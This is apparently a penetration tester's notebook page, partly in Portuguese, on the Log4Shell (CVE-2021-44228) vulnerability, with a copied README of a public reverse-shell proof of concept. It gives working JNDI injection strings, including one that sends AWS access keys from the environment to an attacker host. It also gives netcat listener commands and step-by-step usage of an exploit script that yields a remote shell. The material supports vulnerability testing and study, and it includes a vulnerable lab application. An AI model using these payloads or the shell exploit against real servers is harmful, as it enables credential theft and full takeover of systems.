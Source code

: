 Log4j
========================

Log4j
========================

source:

<https://www.tomitribe.com/blog/cve-2021-44228-log4shell-vulnerability/>

A simple way to test this is to use the “nc” program to start listening for connections in a terminal window:

     nc -l 4444

Enter the following text in your application’s input fields (amend the IP address as appropriate for your setup): 

    ${jndi:ldap://127.0.0.1:4444/}

If you see some weird characters show up in your nc window, then you have just successfully executed this vulnerability.


This is not just limited to fields that you might fill in within your application – anything that is sent to the application and subsequently logged is potentially vulnerable. HTTP request headers are often logged and are a place attackers will try and exploit this vulnerability. This is also not something that is restricted to servlet containers – anything that logs using log4j2 is potentially vulnerable.

Vazando credenciais AWS

    ${jndi:ldap://evil.attaker:1234/${env:AWS_ACCESS_KEY_ID}/${env:AWS_SECRET_ACCESS_KEY}}

poc para obter shell 

<https://github.com/kozmer/log4j-shell-poc/tree/main>


# log4j-shell-poc

[poc.py](https://github.com/kozmer/log4j-shell-poc/tree/main#log4j-shell-poc)

A Proof-Of-Concept for the recently found CVE-2021-44228 vulnerability.

Recently there was a new vulnerability in log4j, a java logging library that is very widely used in the likes of elasticsearch, minecraft and numerous others.

In this repository there is an example vulnerable application and proof-of-concept (POC) exploit of it.


## Proof-of-concept (POC)

#### Requirements:

```
pip install -r requirements.txt
```

#### Usage:

 Start a netcat listener to accept reverse shell connection.

```
nc -lvnp 9001
```
- Launch the exploit.
**Note:** For this to work, the extracted java archive has to be named: 
```
jdk1.8.0_20
```
, and be in the same directory.

```
$ python3 poc.py --userip localhost --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```

**PRATICAL EXAMPLE**
```
python poc.py --userip <attacker_ip> --webport 8000 --lport 4444

#pratical example
cd ~/owncloud/Area_de_trabalho/tools/web/3_exploitation/log4j/log4j-shell-poc
python poc.py --userip <attacker_ip> --webport 8000 --lport 4444

nc -nlvp 4444
```

This script will setup the HTTP server and the LDAP server for you, and it will also create the payload that you can use to paste into the vulnerable parameter. After this, if everything went well, you should get a shell on the lport.


## Vulnerable application
[

](https://github.com/kozmer/log4j-shell-poc/tree/main#vulnerable-application)There is a Dockerfile with the vulnerable webapp. You can use this by following the steps below:


```
1: docker build -t log4j-shell-poc .
2: docker run --network host log4j-shell-poc
```


Once it is running, you can access it on localhost:8080


## Getting the Java version.
[

](https://github.com/kozmer/log4j-shell-poc/tree/main#getting-the-java-version)Oracle thankfully provides an archive for all previous java versions:
[https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html).
Scroll down to 
```
8u202
```
 and download the appropriate files for your operating system and hardware. [![media-WmCgLg](../../../media/media-WmCgLg.png)
](https://user-images.githubusercontent.com/46561460/145655967-b5808b9f-d919-476f-9cbc-ed9eaff51585.png)

**Note:** You do need to make an account to be able to download the package.

Once you have downloaded and extracted the archive, you can find 
```
java
```
 and a few related binaries in 
```
jdk1.8.0_20/bin
```
.
**Note:** Make sure to extract the jdk folder into this repository with the same name in order for it to work.


```

tar -xf jdk-8u202-linux-x64.tar.gz

./jdk1.8.0_202/bin/java -version
java version "1.8.0_202"
Java(TM) SE Runtime Environment (build 1.8.0_202-b26)
Java HotSpot(TM) 64-Bit Server VM (build 25.20-b23, mixed mode)

```

{%embed url="https://youtu.be/kg_RtREuUpM" %}

## Disclaimer
[](https://github.com/kozmer/log4j-shell-poc/tree/main#disclaimer)This repository is not intended to be a one-click exploit to CVE-2021-44228. The purpose of this project is to help people learn about this vulnerability, and perhaps test their own applications (however there are better applications for this purpose, ei: [https://log4shell.tools/](https://log4shell.tools/)).